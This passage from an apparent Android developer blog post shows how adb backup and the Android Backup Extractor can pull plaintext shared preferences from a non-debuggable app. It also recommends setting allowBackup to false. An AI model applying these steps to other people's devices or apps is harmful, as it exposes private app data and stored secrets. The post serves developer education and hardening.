 As you can see, the "mySecretKey" preference is stored in plaintext, free for all to view. However, attempting this on a no-debuggable release build will result in an error `package not debuggable`. So, that's secure right? **Wrong.**

#### ⚠️ Android Backup Exploitation

It is *still* possible to access the shared preferences of a production app on a device through the 'misuse' of the `adb backup` command. This command's intended purpose is to allow for an archive of a device or specific app to be created and then later restored to a device through the use of `adb restore`, However, the backup archive is itself a `tar` file that can be extracted to read the contents of the private app data, including any shared preference XML files.  

The process of completing this is fairly straightforward and through the use of an external tool, known as the [Android Backup Extractor](https://github.com/nelenkov/android-backup-extractor), this process can yield the hidden contents of an app extremely easily.

{% highlight shell %}
# Make a backup file for app 
$ adb backup -noapk -f backup.ab dev.spght.example.prod
WARNING: adb backup is deprecated and may be removed in a future release
Now unlock your device and confirm the backup operation...

# Use ABE to unpack the backup file (12345 is the password as set through the device)
$ java -jar abe.jar unpack backup.ab output.tar 12345
Calculated MK checksum (use UTF-8: true): 739E00581D0B3EB5A17F3E1A43D21F561BA8E8C1CA35C48E636495E9C57EF0A1
31% 63% 67%
4096 bytes written to output.tar.

# Extract the unpacked backup
$ tar xvf output.tar
x apps/dev.spght.example.prod/_manifest
x apps/dev.spght.example.prod/sp/example.xml

# View the extracted shared preference file
$ cat apps/dev.spght.example.prod/sp/example.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="mySecretKey">mySecretValue</string>
</map>
{% endhighlight %}

Voila! We have read the contents of a non-debuggable app's preferences.

It should be noted that this method is only available to exploit apps that *do not* explicitly set `android:allowBackup="false"` within their manifest file. If your app does not need to handle any form of backup during a device upgrade, it is highly recommended you set this option within your manifest to avoid this potential hazard.
